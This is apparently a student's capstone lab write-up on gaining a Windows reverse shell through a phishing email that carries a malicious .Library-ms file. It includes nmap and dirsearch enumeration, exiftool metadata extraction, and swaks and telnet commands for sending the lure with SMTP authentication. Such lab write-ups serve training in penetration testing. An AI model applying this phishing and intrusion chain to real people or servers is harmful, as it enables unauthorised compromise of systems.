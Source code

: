 

**Capstone Exercise**: Enumerate the _ADMIN_ (VM Group 2 - VM #4) machine and find a way to leverage Windows library and shortcut files to get code execution.
Obtain a reverse shell and find the flag on the desktop for the _Administrator_ user. You can use VM #3 of VM Group 2 to prepare your attack.

**Hints**
1. Scan the ports with nmap.
2. Start by fuzzing the webserver for some hidden files (pdf,txt) using gobuster or ffuf
3. Download any files you have found directly with tools like wget for future analysis (such as the creator of the file.)
4. Use the commands provided in Listing 11 to host any malicious file and send the email.
5. Make sure you mount the correct path where you have the Webdav folder! Is it root/webdav or /home/kali/webdav?
6. Do not limit yourself with only tool and search for other powershell reverse shells.

```bash
# Enumerate
nmap -Pn 192.168.228.199
	PORT    STATE SERVICE
	25/tcp  open  smtp
	80/tcp  open  http
	110/tcp open  pop3
	135/tcp open  msrpc
	139/tcp open  netbios-ssn
	143/tcp open  imap
	445/tcp open  microsoft-ds
	587/tcp open  submission

dirsearch -u 192.168.228.199 -e pdf, txt -i 200
	[01:36:13] 200 -  661KB - /info.pdf
```

- Navigate to `192.168.228.199/info.pdf`
![](11.3ex_infopdf.png)

- Save the pdf and use **[exiftool](Tools.md#exiftool)** to attempt to find a local address
``` bash
exiftool capstone_info.pdf
	Creator                         : Dave Wizard
	Title                           : Local Communication
	Author                          : Dave Wizard
```
	- Indicates an address of dave.wizard@supermagicorg.com

- Send email
```bash
# Using swaks as it's easier
swaks --to dave.wizard@supermagicorg.com --from test@supermagicorg.com --server 192.168.228.199 --auth-user test@supermagicorg.com -auth-password test --attach /home/kali/webdav/config.Library-ms --header "test" --body "config file for software"

# If you connect to SMTP via telnet, you HAVE to authenticate via base64 encoded login
telnet 192.168.228.199 25
	220 ADMIN ESMTP
	helo supermagicorg.com
	250 Hello.
	auth login
	334 VXNlcm5hbWU6
	dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
	334 UGFzc3dvcmQ6
	dGVzdA==
	235 authenticated.
```

- Once reverse shell is received, `type C:\Users\Administrator\Desktop\flag.txt`